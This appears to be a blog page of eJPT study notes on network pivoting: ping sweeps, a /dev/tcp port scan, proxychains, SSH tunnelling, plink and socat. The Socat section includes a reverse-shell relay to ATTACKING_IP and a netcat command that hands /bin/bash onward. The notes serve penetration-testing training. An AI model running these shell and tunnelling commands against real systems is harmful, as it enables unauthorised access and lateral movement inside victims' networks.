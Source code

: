 ```yaml
---
title: Pivoting Notes
date: 2021-09-24
categories:
  - Notes
tags:
  - EJPT
  - Notes
  - Pivoting
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


<h2 id="pivoting">Pivoting</h2>
<h3>Bash Simple Ping sweep</h3>
<code>for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done</code>
<h3>Bash Simple portscan</h3>
<code>for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done</code>
<h3>Proxy tools</h3>
<h4>Proxychains</h4>
<p>example to proxy a netcat</p>
<code>proxychains nc 172.16.0.10 23</code>
<p>notes:</p>
  <ul>
    <li>when using nmap w/ proxychains comment out proxy_dns inside the proxychains.conf file</li>
    <li>only tcp scan will work</li>
    <li>udp, syn and ping scan wont work - use -Pn</li>
  </ul>
<h4>Foxyproxy</h4>
<p>proxy for routing browser traffic</p>
<h3>SSH Tunneling / Port Forwarding</h3>
<h4>Port Forwarding - Local: From attacker to victim via SSH</h4>
<p>Attacker --ssh--> 172.16.0.5 --http--> 172.16.0.5</p>
<code>ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN</code>
  <ul>
    <li>-f = backgrounds shell immediately</li>
    <li>-N = tells SSH that it doesn;t need to execute any commands - and just set up the connection</li>
  </ul>
<p>Now we can access the webserver on 172.16.0.10 using our own box localhost:8000</p>
<h5>Proxies</h5>
<code>ssh -D 1337 user@172.16.0.5 -fN</code>
<p>Will open port 1337 on attacker's machine as a proxy to send data through the 172.16.0.5 network - useful when combined with proxy chains -  just make sure proxy chains conf is configured correctly</p>
<h4>Reverse Connection</h4>
<p>used when we got a shell in the victim's machine but no SSH access</p>

<li>Generate ssh key - add pub to our attacker's authorized keys - add the following lines at the beginning of the pub key to prevent reverse shell and only allow port forwarding</li>
<code>command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty</code>
<code>ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN</code>
<p>we have a shell on victim(.05) and we want to use it as a reverse connection from our machine(.20) to webseserver victim(.10)</p>
<h4>Plink.exe for Windows</h4>
<p>Command line version of PuTTY SSH Client</p>
<p>reverse connection from victim to our attacker</p>
<code>cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N</code>
<p>.20 -  attacker | .05 victim that we have a shell from | .10 another victim</p>
<p>for the keyfile we need to convert it using puttygen tool</p>
<code>puttygen KEYFILE -o OUTPUT_KEY.ppk</code>
<h4>Socat</h4>
<p>Static Binaries for Socat</p>
<a href="https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat">Socat for Linux | </a>
<a href="https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download">Socat for Windows</a>
<p>Watch IPPSEC do hackthebox - worker</p>

<p>Reverse Shell Relay</p>
<code>./socat tcp-l:8000 tcp:ATTACKING_IP:443 &</code>
<ul>
  <li>tcp-l:8000 = used to create the first half of the connection -- ipv4 listener on tcp port 8000 of the victim</li>
  <li>tcp:attacking_ip:443 = connects back to our local IP on port 443</li>
  <li>& =  backgrounds the listener</li>
</ul>
<p>this will connect back to our machine so we need to setup a netcat listener</p>
<code>./nc-hyst 127.0.0.1 8000 -e /bin/bash</code>
<p>Port Forwarding using Socat</p>
<code>./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &</code>


<h2>Reverse SSH tunnel</h2>
<p> victim local port 127.0.0.1:8080? use this</p>
<code>ssh -L 4444:10.10.125.232:8080</code>
<li>4444 port of victim you will access from outside</li>
<li>10.10.125.232 victim ip</li>
<li>8080 local port you want to access inside the victim</li>

<h2>remote port forwarding</h2>
<p>attacking machine</p>
